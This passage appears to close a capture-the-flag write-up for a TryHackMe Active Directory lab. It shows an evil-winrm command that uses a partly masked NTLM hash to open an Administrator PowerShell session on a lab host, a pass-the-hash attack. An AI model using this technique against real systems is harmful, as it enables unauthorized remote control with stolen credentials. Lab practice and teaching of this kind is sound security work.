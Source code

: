 ```
bvr0n@kali:~/CTF/THM/AttacktiveDirect$ evil-winrm -i 10.10.193.34 -u Administrator -H ********************7260b0bcb4fc

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator> whoami
thm-ad\administrator
```
##### Congratulations, you now have complete access to the system. Hope you enjoyed this guide. :)


